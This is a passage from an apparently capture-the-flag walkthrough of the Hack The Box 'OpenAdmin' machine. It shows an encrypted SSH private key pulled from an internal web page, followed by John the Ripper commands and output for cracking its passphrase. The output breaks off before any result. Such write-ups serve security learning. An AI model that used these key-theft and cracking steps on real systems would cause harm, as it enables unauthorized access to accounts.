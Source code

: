 ```bash
jimmy@openadmin:/var/www/internal$ curl http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>

```

We grab this ssh key and convert do john format to crack them: 

```bash

dumbland () hgfs/hackthebox/openadmin :: locate ssh2john
/usr/share/john/ssh2john.py
dumbland () hgfs/hackthebox/openadmin :: sudo john ssh-john-format.txt -w=dic.lst
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 2 needed for performance.
0g 0:00:00:00 DONE (2020-04-07 18:50) 0g/s 100.0p/s 100.0c/s 100.0C/s n1nj4W4rri0R!
Session completed
dumbland () hgfs/hackthebox/openadmin :: sudo john ssh-john-format.txt -w=/mnt/hgfs/hackthebox/json/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
```